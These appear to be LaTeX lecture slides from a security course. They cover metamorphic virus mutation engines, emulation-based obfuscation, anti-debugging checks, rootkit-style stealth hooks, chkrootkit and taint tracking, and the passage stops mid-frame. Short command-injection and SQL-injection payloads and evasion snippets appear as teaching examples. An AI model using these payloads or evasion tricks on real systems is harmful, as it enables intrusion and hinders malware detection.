\date{}
\title{}
\date{}
\begin{document}
\begin{frame}
    \titlepage
\end{frame}


\makeatletter
\newenvironment<>{btHighlight}[1][]
{\begin{onlyenv}#2\begingroup\tikzset{bt@Highlight@par/.style={#1}}\begin{lrbox}{\@tempboxa}}
{\end{lrbox}\bt@HL@box[bt@Highlight@par]{\@tempboxa}\endgroup\end{onlyenv}}

\newcommand<>\btHL[1][]{%
  \only#2{\begin{btHighlight}[#1]\bgroup\aftergroup\bt@HL@endenv}%
}
\def\bt@HL@endenv{%
  \end{btHighlight}%   
  \egroup %
}
\tikzset{
    btHLbox/.style={
        fill=red!30,outer sep=0pt,inner xsep=1pt, inner ysep=0pt, rounded corners=3pt
    },
}
\newcommand{\bt@HL@box}[2][]{%
  \tikz[#1]{%
    \pgfpathrectangle{\pgfpoint{1pt}{0pt}}{\pgfpoint{\wd #2}{\ht #2}}%
    \pgfusepath{use as bounding box}%
    \node[text width={},draw=none,anchor=base west, btHLbox, minimum height=\ht\strutbox+1pt,#1]{\raisebox{1pt}{\strut}\strut\usebox{#2}};
  }%
}

\lst@CCPutMacro
    \lst@ProcessOther {"2A}{%
      \lst@ttfamily 
         {\raisebox{2pt}{*}}% used with ttfamily
         {\raisebox{2pt}{*}}}% used with other fonts
    \@empty\z@\@empty

\lstdefinelanguage
   [x8664gas]{Assembler}     % add a "x64" dialect of Assembler
   [x86masm]{Assembler} % based on the "x86masm" dialect
   % with these extra keywords:
   {morekeywords={CDQE,CQO,CMPSQ,CMPXCHG16B,JRCXZ,LODSQ,MOVSXD,%
                  POPFQ,PUSHFQ,SCASQ,STOSQ,IRETQ,RDTSCP,SWAPGS,.TEXT,.STRING,.ASCIZ,%
                  BEQ,LW,SW,LB,SB,ADDIU,J,BEQZ,BNEZ,BNE,%
                  MOVUPD,MULPD,MOVSD,MULSD,%
                  SHLADD,MOV,CMP.LT,TBIT.NZ,BR.RET.SPTK.MANY,%
                  ADDQ,POPQ,PUSHQ,RRMOVQ,MRMOVQ,RMMOVQ,IRMOVQ,%
                  <-,LL,SC,ADDI,ADDL,VMOVDQA,ADDQ,CMPL,JB,JBE,MOVL,CLTQ,%
                  MOVW,PUSHW,MOV,ADD,SUB,INT,PUSH,MOV,ADD,REP,MOVSB,%
                  TESTQ,CMPQ,MOVL,MOVQ,ADDQ,JMPQ,XORQ,%
                  LEAQ,LEAL,LEA,RETQ,RET,POPL,POPW,PUSHL,PUSHW,%
                  LEAW,%
                  SUBQ,SYSCALL,.ASCII,CALLQ,MOVSLQ,JMP,ANDQ,SHRQ,MOVB,INCQ,TESTL,XORL,%
                  SHRL,LEAL,SARL,SUBL,IMULL,IMULQ,MOVDQU,PADDD,XORL,%
                  MOVZBL,MOVZB,SHRB,SRAL,SHRL,ANDL,%
                  CMOVNS,SRAL,SRAQ,MOVZBW,MOVZBQ,%
                  PADDW,PADDQ,MODUPS,MOVAPD,%
                  MOVL,RET,.GLOBL,%
		  PAUSE,LFENCE,JMP,%
                  },
    deletekeywords={eax,ebx,sp,si,cx,di,ds,cs,es,fs,dx,ax,bx,al,esi,ebp,ecx,rip,eip,edx,edi,rdi,esp},
    deletekeywords=[2]{size},
    alsoletter={\%},
    alsoother={()},
    emphstyle={\color{violet!50!black}},
    emph={\%rax,\%rbx,\%rcx,\%rdx,\%r8,\%r9,\%r10,\%r11,\%r12,\%r13,\%r14,\%r15,\%eax,\%ebx,\%sp,\%si,\%cx,\%di,\%ds,\%cs,\%es,\%fs,\%dx,\%ax,\%bx,\%al,\%esi,\%ebp,\%ecx,\%rip,\%eip,\%edx,\%edi,\%rdi,\%esp,\%rsp},
    %moreemph={eax,ebx,sp,si,cx,di,ds,cs,es,fs,dx,ax,bx,al,esi,ebp,ecx,rip,eip,edx,edi,rdi,esp},
    morecomment=[l]{\#},
    morecomment=[l]{\/\/},
    morecomment=[s]{/*}{*/},
    sensitive=false,
    keepspaces=true} % et

\lstalias[]{myasm}[x8664gas]{Assembler}

\lstdefinelanguage{JavaScript}{
  keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break},
  ndkeywords={class, export, boolean, throw, implements, import, this},
  sensitive=false,
  comment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]',
  morestring=[b]"
}

\newcommand{\keywordstyle}{\sourcecodeprolight\bfseries\color{blue!30!black}}
\newcommand{\stringstyle}{\color{blue!20!black}\ttfamily}

\lstset{
    language=C,
    basicstyle=\sourcecodepro\EmptyMapping,
    escapechar=`,
    keywordstyle=\keywordstyle\EmptyMapping,
    identifierstyle=\sourcecodepro\EmptyMapping,
    numberstyle=\small\color{black!70},
    commentstyle=\color{red!60!black}\ttfamily\itshape,
    stringstyle=\color{blue!20!black}\ttfamily,
    ndkeywordstyle=\bfseries\color{blue!30!black},
    upquote=true,
}



\lstdefinestyle{medium}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{12}{13}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{12}{13}\selectfont\keywordstyle,
}

\lstdefinestyle{small}{
    basicstyle=\sourcecodepro\EmptyMapping\small,
    keywordstyle=\sourcecodepro\EmptyMapping\small\keywordstyle,
}

\lstdefinestyle{smaller}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{11}{12}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{11}{12}\selectfont\keywordstyle,
}

\lstdefinestyle{size105}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{10.5}{11.5}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{10.5}{11.5}\selectfont\keywordstyle,
}

\lstdefinestyle{size10}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{10}{11}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{10}{11}\selectfont\keywordstyle,
}

\lstdefinestyle{size9}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{9}{10}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{9}{10}\selectfont\keywordstyle,
}
\lstdefinestyle{size8}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{8}{9}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{8}{9}\selectfont\keywordstyle,
}



\lstdefinestyle{script}{
    basicstyle=\sourcecodepro\EmptyMapping\scriptsize,
    keywordstyle=\sourcecodepro\EmptyMapping\scriptsize\bfseries,
}




\begin{frame}{last time}
\end{frame}

\section{metamorphic viruses}
     %FIXME: not very clear

\begin{frame}{changing bodies}
    \begin{itemize}
    \item ``decrypting'' a malware body gives body for ``signature''
        \begin{itemize}
        \item ``just'' need to run decrypter
        \end{itemize}
    \item how about avoiding static signatures entirely 
        \begin{itemize}
        \item despite being self-replicating
        \end{itemize}
    \item called \myemph{metamorphic}
        \begin{itemize}
        \item versus \myemph{polymorphic} --- only change ``decrypter''
        \end{itemize}
    \end{itemize}
\end{frame}



\subsection{example: changing bodies}

\begin{frame}[fragile,label=regSwap]{example: changing bodies}
\lstset{language=myasm,style=smaller}
\begin{tabular}{ll}
\begin{lstlisting}
pop %edx
mov $0x4h, %edi
mov %ebp, %esi
mov $0xC, %eax
add $0x88, %edx
mov (%edx), %ebx
mov %ebx, 0x1118(%esi,%eax,4)
\end{lstlisting}
&
\begin{lstlisting}
pop %eax
mov $0x4h, %ebx
mov %ebp, %esi
mov $0xC, %edi
add $0x88, %eax
mov (%eax), %esi
mov %esi, 0x1118(%esi,%eax,4)
\end{lstlisting}
\end{tabular}
\begin{itemize}
\item code above: after decryption
\item \myemph{every instruction} changes
\item still has good signatures
    \begin{itemize}
    \item with \myemph{alternatives} for each possible register selection
    \end{itemize}
\item but harder to write/slower to match
\end{itemize}
\end{frame}




\subsection{case study: Evol}
\usetikzlibrary{arrows.meta,positioning,matrix,calc,patterns}
\begin{frame}<1>[fragile,label=caseEvol]{case study: Evol}
    \begin{itemize}
    \item via Lakhatia et al, ``Are metamorphic viruses really invincible?'', Virus Bulletin, Jan 2005.
    \item ``\myemph{mutation engine}''
        \begin{itemize}
        \item run as part of propagating the virus
        \end{itemize}
    \end{itemize}
    \begin{tikzpicture}
        \tikzset{
            every node/.style={font=\small,align=center},
            hiOn/.style={alt=<#1>{red,ultra thick}{}},
        }
        \path node[draw,hiOn=2] (disasm) {disassemble} -- ++(2.5cm,0) node (lens) {instr. \\ lengths} -- ++(2cm,0) node[draw,hiOn=3] (xform) {transform}
              -- ++(2cm,0) node[draw,hiOn=4] (reloc) {relocate};
        \node (origCode) at ([xshift=-2cm,yshift=1cm]disasm.north) {code};
        \node (finalCode) at ([xshift=2cm,yshift=-1cm]reloc.south) {code};
        \begin{scope}[thick,-Latex]
        \draw (origCode) |- (disasm);
        \draw (disasm) -- (lens);
        \draw (lens) -- (xform);
        \draw (xform) -- (reloc);
        \end{scope}
    \end{tikzpicture}
\end{frame}

\againframe<2>{caseEvol}

\begin{frame}{Evol instruction lengths}
    \begin{itemize}
    \item sounds really complicated?
    \item virus only handles instructions it has:
        \begin{itemize}
        \item about 61 opcodes, 32 of them identified by first four bits
            \begin{itemize}
            \item e.g. opcode {\tt 0x7\textit{x}} -- conditional jump
            \end{itemize}
        \end{itemize}
    \item no prefixes, no floating point
    \item only {\tt \%reg} or {\tt \$constant} or {\tt offset(\%reg)}
    \end{itemize}
\end{frame}

\againframe<3>{caseEvol}

\begin{frame}[fragile,label=evolXform]{Evol transformations}
\lstset{language=myasm,style=small}
    \begin{itemize}
    \item some stuff left alone
    \item static or random one of $N$ transformations
    \item example:
    \end{itemize}
\begin{tikzpicture}
\tikzset{
    every node/.style={font=\small,align=center}
}
\node[draw] (movebpEight) {
\begin{lstlisting}
mov %eax, 8(%ebp)
\end{lstlisting}
};

\node[draw,right=2cm of movebpEight] (movebpExpand) {
\begin{lstlisting}
push %ecx
mov %ebp, %ecx
add $0x12, %ecx
mov %eax, -0xa(%ecx)
pop %ecx
\end{lstlisting}
};
\node[anchor=north east] at ([yshift=-.25cm]movebpExpand.south east) {
    uses more stack space --- save temporary \\
    code gets bigger each time
};
\end{tikzpicture}
\imagecredit{Lakhotia et al., ``Are metamorphic viruses really invincible?'', Virus Bulletin, Jan 2005}
\end{frame}

\againframe<4>{caseEvol}



\subsection{handling relocation with mutation}
\begin{frame}{mutation with relocation}
    \begin{itemize}
    \item problem: mutations mess up jumps/calls
        \begin{itemize}
        \item change were targets of jumps/calls are
        \end{itemize}
    \item table mapping old to new locations
        \begin{itemize}
        \item list of number of bytes generated by each transformation
        \end{itemize}
    \item list of locations references in original
        \begin{itemize}
        \item record relative offset in jump
        \item record absolute offset in original
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=relocEx]{relocation example}
\lstset{language=myasm,style=small}
\begin{tikzpicture}
\node (code) {
\begin{lstlisting}
    mov ...
    mov ...
decrypt:
    xor %rax, (%rbx)
    inc %rbx
    dec %rcx
    jne decrypt
\end{lstlisting}
};
\matrix[tight matrix,nodes={font=\small},anchor=north west,
    nodes={font=\tt,text width=2cm,text depth=.1mm,minimum height=.4cm},
    row 1/.style={nodes={font=\small\bfseries,minimum height=1cm}},
    column 1/.style={text=blue!60!black,nodes={text width=1.75cm}},
    column 2/.style={text=green!60!black},
    column 3/.style={nodes={text width=1.5cm,font=\small\tt}},
] (lensTable) at ([xshift=1cm]code.north east) {
    orig. len \& new len \& instr \\
    5 \& 10 \& mov1 \\
    2 \& 3 \& mov2 \\
    2 \& 7 \& xor1 \\
    1 \& 1 \& inc1 \\
    1 \& 5 \& dec1 \\
    3 \& 3 \& jne1 \\
};
\matrix[tight matrix,nodes={font=\fontsize{9}{10}\selectfont,minimum height=1.2cm},anchor=north west,
    nodes={font=\tt,text width=4cm},
    row 1/.style={nodes={font=\small\bfseries,minimum height=1cm}},
    column 2/.style={text=blue!60!black},
    column 1/.style={text=green!60!black},
    column 3/.style={text=green!60!black},
] (relocTable) at ([yshift=-.5cm,xshift=-6.5cm]lensTable.south west) {
    address loc \& orig. target \& new target \\
    $10+3+7+1+5+1$ (jne1+1) \& xor1 ($5+2$)\& xor1 ($10+3$)\\ 
};
\end{tikzpicture}
\end{frame}



\subsection{fancy mutation engines}

\begin{frame}{mutation engines}
    \begin{itemize}
    \item tools for writing polymorphic viruses
    \item best: \myemph{no} constant bytes, \myemph{no} ``no-op'' instructions
    \item tedious work to build state-machine-based detector
        \begin{itemize}
        \item ((almost) a regular expression to match it)
        \item apparently done manually
        \item automatable?
        \end{itemize}
    \item (but probably can\ldots)
    \item pattern: used until reliably detected
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=fancyMut]{fancier mutation}
\begin{lstlisting}[style=script]
Mutate(original_machine_code, new_machine_code) {
    for (instruction in original_code) {
        new_machine_code += ChooseNewCodeFor(instruction)
    }
    FixupJumpsIn(new_machine_code);
}
\end{lstlisting}
    \begin{itemize}
    \item can do mutation on \myemph{generic machine code}
    \vspace{.5cm}
    \item ``just'' need full disassembler
    \item identify both \myemph{instruction lengths} and \myemph{addresses}
    \item hope machine code not written to rely on machine code sizes, etc.
    \item hope to identify \myemph{tables of function pointers}, etc.
    \end{itemize}
\end{frame}

\begin{frame}{fancier mutation}
    \begin{itemize}
    \item also an infection technique
        \begin{itemize}
        \item no ``cavity'' needed --- create one
        \end{itemize}
    \item obviously tricky to implement
        \begin{itemize}
        \item need to fix all executable headers
        \item what if you misparse assembly?
        \item what if you miss a function pointer?
        \end{itemize}
    \item example: Simile virus
    \end{itemize}
\end{frame}




\section{emulation-based obfuscation}
\begin{frame}{emulation based obfuscation}
    \begin{itemize}
    \item so far: always producing machine code and running it
    \item analyzing machine code with virtual machine, debugger, etc.
    \vspace{.5cm}
    \item alternate idea: invent a new instruction set
    \item convert program to that instruction set
    \item include interpreter for that instruction set
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=VirtIntro]{example: Tigress Virtualize transform (1)}
input:
\begin{lstlisting}[style=smaller]
int example(int x) {
    if (x > 10) {
        printf("Yes!\n");
    }   
}
\end{lstlisting}
\begin{itemize}
\item Tigress generates instruction set for stack-based machine
    \begin{itemize}
    \item uses little stack instad of registers for most instructions
    \item same design used by, e.g., Java VM
    \end{itemize}
\item instructions can pop+push from stack for temporaries
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=VirtISA]{example: Tigress Virtualize transform (2)}
\begin{itemize}
\item instruction set for example
\begin{itemize}
\item call OPERAND=funcId with arguments LOCALS[1]
\item pop t1, pop t2, push t1>t2
\item push OPERAND
\item push table[OPERAND]
    \begin{itemize}
    \item different variants for int, string, \ldots
    \end{itemize}
\item pop t1, LOCALS[OPERAND] = t1
\item pop t1, if (t1) goto OPERAND
\item return
\end{itemize}
\item customized for this function
\item each instruction has opcode, variable length (if operands)
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=VirtISA2]{example: Tigress Virtualize transform (3)}
\begin{lstlisting}[style=script]
int example(int x) {
    if (x > 10) {
        printf("Yes!\n");
    }   
}
\end{lstlisting}
\begin{itemize}
\item each line below one ``instruction''
    \begin{itemize}
    \item (actually encoded as part of array of bytes)
    \end{itemize}
\begin{itemize}
\item push OPERAND=10
\item push table[OPERAND=\ldots] (argument \texttt{x})
\item pop t1 pop t2 push t1>t2
\item pop t1, if (t1) goto OPERAND=OUT
\item push table[OPERAND=\ldots] (string \texttt{"Yes!"})
\item pop t1, LOCALS[OPERAND=1] = t1
\item call OPERAND=\ldots (printf) with arguments LOCAL1
\item OUT: \ldots
\end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=VirtISAEx]{example: Tigress emulator}
\begin{lstlisting}
  _1_example_$sp[0] = _1_example_$stack[0];
  _1_example_$pc[0] = _1_example_$array[0];
  while (1) {
    switch (*(_1_example_$pc[0])) {
    ...
    }
  }
\end{lstlisting}
\begin{itemize}
\item pc variable representing emulated stack
    \begin{itemize}
    \item switch statement based on opcode
    \end{itemize}
\item sp variable representing emulated stack
\end{itemize}
\end{frame}

\begin{frame}{effectiveness of this transformation?}
    \begin{itemize}
    \item huge performance impact
    \item can do analysis on new instruction set
        \begin{itemize}
        \item how much more difficult than working with original machine code?
        \end{itemize}
    \item instruction traces still helpful
        \begin{itemize}
        \item about as easy to get record of everything done
        \end{itemize}
    \end{itemize}
\end{frame}


\section{goats and anti-goat}

\begin{frame}{on goats}
    \begin{itemize}
    \item analysis and maybe detection uses \textit{goat files}
    \item ``\myemph{sacrificial goat}'' to get changed by malware
    \item heuristics can avoid simple goat files, e.g.:
        \begin{itemize}
        \item don't infect small programs
        \item don't infect huge programs
        \item don't infect programs with huge amounts of {\tt nop}s
        \item \ldots
        \end{itemize}
    \end{itemize}
\end{frame}





\section{anti-debugging}

\begin{frame}<1>[label=debuggerThings]{diversion: debuggers}
    \begin{itemize}
    \item we'll care about two pieces of functionality:
    \vspace{.5cm}
    \item \myemph<2>{breakpoints}
        \begin{itemize}
        \item debugger gets control when certain code is reached
        \end{itemize}
    \item \myemph<3>{single-step}
        \begin{itemize}
        \item debugger gets control after a single instruction runs
        \end{itemize}
    \end{itemize}
\end{frame}




\subsection{breaking breakpoints}
\againframe<2>{debuggerThings}


\begin{frame}[fragile,label=implBreak]{implementing breakpoints}
\lstset{language=myasm,style=small}
\begin{itemize}
    \item idea: change
\begin{lstlisting}
movq %rax, %rdx
addq %rbx, %rdx // BREAKPOINT HERE
subq 0(%rsp), %r8
...
\end{lstlisting}
into
\begin{lstlisting}
movq %rax, %rdx
jmp debugger_code 
subq 0(%rsp), %r8
...
\end{lstlisting}
    \item<2> problem: {\tt jmp} might be bigger than {\tt addq}?
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=implBreak2]{int 3}
    \begin{itemize}
    \item x86 breakpoint instruction: {\tt \textbf{int} 3}
    \item \myemph{one byte} instruction encoding: {\tt CC}
    \item debugger \myemph{modifies code to insert breakpoint}
        \begin{itemize}
        \item has copy of original somewhere
        \end{itemize}
    \item invokes handler setup by OS
        \begin{itemize}
        \item debugger can ask OS to be run by handler
        \item or changes pointer to handler directly on old OSes
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{int 3 handler}
    \begin{itemize}
    \item kind of exception handler
        \begin{itemize}
        \item exception handler = way for CPU to run OS code \\
        (despite no actual normal jmp/etc. to OS code)
        \end{itemize}
    \item x86 CPU saves registers, PC for debugger
    \item x86 CPU has easy to way to resume debugged code from handler
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=int3Check]{detecting int 3 directly (1)}
\lstset{language=myasm,style=small}
\begin{itemize}
    \item checksum running code
\end{itemize}
\begin{lstlisting}
mycode:                     
    ...
        /* RBX = current sum; RAX = pointer to code */
    movq $0, %rbx           // Intel: mov RBX, 0
    movq $mycode, %rax      // Intel: mov RAX, OFFSET MYCODE
loop:           
    addq (%rax), %rbx       // Intel: add RBX, [RAX]
    addq $8, %rax           // Intel: add 8, RAX
        /* current sum += *code_ptr;  code_ptr += ... */
    cmpq $endcode, %rax
    jl loop
    cmpq %rbx, $EXPECTED_VALUE 
    jne debugger_found   // if sum wrong, panic
    ...
endcode:
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=int3OSAPI]{detecting int 3 directly (2)}
\lstset{language=C,style=small}
\begin{itemize}
    \item query the ``handler'' for int 3
        \begin{itemize}
        \item old OSs only; today: cannot set directly
        \end{itemize}
    \item modern OSs: ask if there's a debugger attached
    \item \ldots or try to attach as debugger yourself
        \begin{itemize}
        \item doesn't work --- debugger present, probably
        \item does work --- broke any debugger?
        \end{itemize}
\end{itemize}
\begin{lstlisting}
 // Windows API function!
if (IsDebuggerPresent()) { ... }
\end{lstlisting}
\end{frame}



\subsubsection{aside: modern breakpoints}

\begin{frame}{modern debuggers}
    \begin{itemize}
    \item {\tt int 3} is the oldest x86 debugging mechanism
    \item modern x86: 4 ``breakpoint'' registers (\myemph{DR0--DR3})
        \begin{itemize}
        \item contain address of program instructions
        \item need more than 4? sorry
            \begin{itemize}
            \item probably fall back to int 3 technique
            \end{itemize}
        \end{itemize}
    \item processor triggers exception when address reached
        \begin{itemize}
        \item 4 extra registers + comparators in CPU?
        \end{itemize}
    \item flag to invoke debugger if debugging registers used
        \begin{itemize}
        \item enables nested debugging
        \end{itemize}
    \end{itemize}
\end{frame}


\subsection{breaking single-stepping (short)}
\againframe<3>{debuggerThings}
\begin{frame}{anti-single-step}
    \begin{itemize}
    \item x86: single-stepping implemented with processor flag
        \begin{itemize}
        \item causes OS to run after every instruction
        \end{itemize}
    \item can read flag normally with common debugger configurations
        \begin{itemize}
        \item more modern systems may support hiding better
        \end{itemize}
    \vspace{.5cm}
    \item could also check timing
    \item could also try to replace OS's single-step handler
    \end{itemize}
\end{frame}


\section{retroviruses / direct antiantivirus}

\begin{frame}{attacking antivirus (1)}
    \begin{itemize}
    \item one common virus idea: interfere directly with antivirus
    \vspace{.5cm}
    \item just modify antivirus software databases, etc.
    \item preserve file checksums
        \begin{itemize}
        \item so some AV software thinks file is unchanged
        \item (doesn't work with cryptographic hashes, but\ldots)
        \end{itemize}
    \item \myemph<2>{register own handlers to filter antivirus/sysadmin calls}
    \end{itemize}
\end{frame}


\subsection{hiding}

\begin{frame}[fragile,label=stealth]{stealth}
\lstset{language=C,style=small}
\begin{lstlisting}
/* in virus: */
int OpenFile(const char *filename, ...) {
    if (strcmp(filename, "infected.exe") == 0) {
        return RealOpenFile("clean.exe", ...);
    } else {
        return RealOpenFile(filename, ...);
    }
}
\end{lstlisting}
\end{frame}

\begin{frame}{other stealth ideas}
    \begin{itemize}
    \item override ``get file modification time'' (infected files)
    \item override ``get files in directory'' (infected files)
    \item override ``read file'' (infected files)
        \begin{itemize}
        \item but not ``execute file''
        \end{itemize}
    \item override ``get running processes'' 
    \end{itemize}
\end{frame}



\subsection{chkrootkit}
\begin{frame}{rootkits}
    \begin{itemize}
    \item rootkit --- priviliged malware that hides itself
    \item same ideas as these anti-anti-virus techniques
    \end{itemize}
\end{frame}

\begin{frame}{chkrootkit}
    \begin{itemize}
    \item \texttt{chkrootkit} --- Unix program that looks for rootkit signs
    \vspace{.5cm}
    \item tell-tale strings in system programs
        \begin{itemize}
        \item e.g. file, process, network connection listing programs changed
        \end{itemize}
    \item disagreement between process list, other ways of detecting processes
    \item disagreement between file lists, other ways of counting files
    \item overwritten entries in system login records
    \item known suspicious filenames
        \begin{itemize}
        \item hidden exes in temporary, data directories, etc.
        \end{itemize}
    \end{itemize}
\end{frame}


\begin{frame}{to exploits}
\end{frame}

\section{command injection}
\begin{frame}[fragile]{command injection (review?)}
\begin{Verbatim}[fontsize=\small]
name = UNTRUSTED_INPUT
subprocess.check_call(
    "write_report_for '" + name + "' output.pdf"
)
\end{Verbatim}
\hrule
\begin{itemize}
\item name = \texttt{'; malicious\_command; /bin/true '}
\end{itemize}
\end{frame}

\begin{frame}[fragile]{command injection (review?)}
\begin{Verbatim}[fontsize=\small]
name = UNTRUSTED_INPUT
result = db_connection.execute(
    "SELECT a, b, c FROM items WHERE name = '" + name + "'"
)
\end{Verbatim}
\hrule
\begin{itemize}
\item name = \texttt{'; SELECT password FROM users WHERE name = 'foo}
\end{itemize}
\end{frame}



\section{type confusion}
\begin{frame}{input as wrong thing pattern}
\begin{itemize}
\item with command injection: input interpreted for wrong purpose
\item supposed to be label/string to match/etc.
\item actually interpreted as part of command
\vspace{.5cm}
\item<2-> same pattern for a bunch of memory vulnerabilities we'll look at
    \begin{itemize}
    \item input supposed be part of buffer
    \item overflow or similar makes part of it interpreted as something else
    \end{itemize}
\end{itemize}
\end{frame}






\section{taint tracking}

\begin{frame}{taint tracking idea}
    \begin{itemize}
        \item so far: looking at how information makes it from source to sink statically
        \item not actually running the program
        \vspace{.5cm}
        \item can do this as programs are running, trigger error
        \vspace{.5cm}
        \item \textit{dynamic taint tracking}
    \end{itemize}
\end{frame}




\subsection{implementations}

\begin{frame}{taint tracking implementations}
    \begin{itemize}
        \item for the programmer:
            \begin{itemize}
            \item supported as optional langauge feature --- Perl, Ruby
            \item doesn't seem to have gotten wide adoption?
            \end{itemize}
        \vspace{.5cm}
        \item for the malware analyst/user
            \begin{itemize}
            \item as part of a custom x86 VM (whole system, on machine code)
            \item as part of a custom Android system
            \item \ldots
            \end{itemize}
    \end{itemize}
\end{frame}


\subsection{taint tracking in perl}
\begin{frame}[fragile,label=perlTT1]{taint tracking in Perl (1)}
    \begin{minted}[fontsize=\small]{Perl}
#! perl -T
# -T: enable taint tracking
use warnings; use strict;
$ENV{PATH} = '/usr/bin:/bin';

print "Enter name: ";
my $name = readline(STDIN);
my $dir = $name . "-dir";

system("mkdir $dir");
\end{minted}
    \begin{itemize}
    \item ``Insecure dependency in system while running with -T switch at perltaint.pl line 10, <STDIN> line 1.''
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=perlTT2]{taint tracking in Perl (2)}
\begin{minted}[fontsize=\small]{Perl}
#! perl -T
# -T: enable taint tracking
use warnings; use strict;
$ENV{PATH} = '/usr/bin:/bin';

print "Enter name: ";
my $name = readline(STDIN);
# keep $name only if its all alphanumeric
# this marks $name as untainted
($name) = $name =~ /^([a-zA-Z0-9]+)$/;
my $dir = $name . "-dir";

system("mkdir $name");
\end{minted}
\end{frame}




\subsection{taint tracking asm / Panorama example}
\begin{frame}{taint tracking assembly}
\begin{itemize}
\item taint-tracking often proposed at \textit{assembly} level
\item examples:
\vspace{.5cm}
\item Panda.RE (2013--??)
    \begin{itemize}
    \item along with virtual machine record+replay
    \end{itemize}
\item Panaroma (Yin and Song, UC Berkeley, CCS '07)
\end{itemize}
\end{frame}

\begin{frame}{high-level overview}
\begin{itemize}
\item lookup table for each register and byte of memory:
    \begin{itemize}
    \item where did this value come from?
    \end{itemize}
\item \texttt{add \%r9, (\%r8)}: \\
    \texttt{memory-taint-table[register-values[R8]] =} \\
    \hspace{4cm} \texttt{register-taint-table[R9]}
\item also similar for virtual disk, network, \ldots
\item custom VM: all applications and the OS run with taint tracking
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=panaromaSpecial]{Panaroma special cases}
\begin{itemize}
\item \texttt{xor \%eax, \%eax}: special case: remove taint from \%eax
\item Windows keyboard input did something like:
\begin{lstlisting}
keycode = GetFromKeyboard();
switch (keycode) {
case KEYCODE_A: return 'a';
case KEYCODE_B: return 'b';
...
}
\end{lstlisting}
\end{itemize}
\end{frame}

\begin{frame}{taint tracking for malware analysis}
\begin{itemize}
\item mark contents of file as tainted, then ID how used
    \begin{itemize}
    \item can find dependent conditional jumps/etc.
    \end{itemize}
\item figure out where network packet goes
    \begin{itemize}
    \item across processes with whole-virtual-machine analysis
    \end{itemize}
\vspace{.5cm}
\item can `tag' each byte of input differently
    \begin{itemize}
    \item identify which bytes of input jump depends on
    \end{itemize}
\end{itemize}
\end{frame}


\subsection{taint tracking as program analysis}

\subsection{exercise: defeating} 
\begin{frame}[fragile,label=defeatAsmCheck]{defeating ASM-based checking}
\begin{itemize}
\item if a malware author wanted to defeat this taint checking,
what ideas seem promising for confusing the analysis?
\begin{itemize}
\item A. timing arithmetic operations to see if the machine is unusually slow
\item B. computing the hash of the malware's machine code and comparing it to a known value
\item C. changing \lstinline|x = y| to \\
    \lstinline|switch (x) { case 1: y = 1; break; case 2: ...}|
\item D. changing \lstinline|x = y| to \lstinline|x = z + y; x = x - z;|
\end{itemize}
\end{itemize}
\end{frame}


\subsection{obfuscation to defeat taint-tracking}
\begin{frame}{Tigress's transformation}
